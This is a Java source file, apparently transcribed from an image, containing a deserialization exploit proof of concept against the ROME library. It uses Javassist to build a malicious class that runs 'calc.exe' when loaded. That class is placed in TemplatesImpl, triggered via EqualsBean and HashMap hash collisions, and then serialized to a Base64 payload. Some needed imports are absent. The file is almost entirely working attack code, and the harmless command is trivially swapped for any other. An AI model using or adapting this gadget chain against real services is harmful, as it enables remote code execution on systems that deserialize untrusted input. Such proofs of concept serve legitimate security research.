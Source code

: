 ```java
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class ROMEtest2 {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("e");
        CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = ctClass.makeClassInitializer();
        constructor.setBody("        try {\n" +
                "            Runtime.getRuntime().exec(\"calc.exe\");\n" +
                "        } catch (Exception ignored) {\n" +
                "        }");
        byte[] bytes = ctClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] { bytes });
        setFieldValue(templates, "_name", "a");

        EqualsBean bean = new EqualsBean(String.class,"");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("bb",templates);
        map1.put("cC",bean);
        map2.put("bb",bean);
        map2.put("cC",templates);
        HashMap map = new HashMap();
        map.put(map1,"");
        map.put(map2,"");

        setFieldValue(bean,"_beanClass",Templates.class);
        setFieldValue(bean,"_obj",templates);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())).length());

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        Object o = ois.readObject();
    }
}
```
